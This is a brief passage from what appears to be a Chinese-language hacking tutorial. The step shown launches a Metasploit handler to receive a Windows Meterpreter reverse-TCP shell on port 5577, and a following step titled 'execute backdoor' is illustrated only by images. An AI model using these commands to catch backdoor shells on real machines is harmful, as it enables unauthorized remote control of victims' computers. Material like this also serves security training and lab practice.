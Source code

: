 ##### ②启动监听

```shell
msfconsole
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 5577
exploit
```

![](image62/62-5.png)

##### ③执行后门

![](image62/62-6.png)
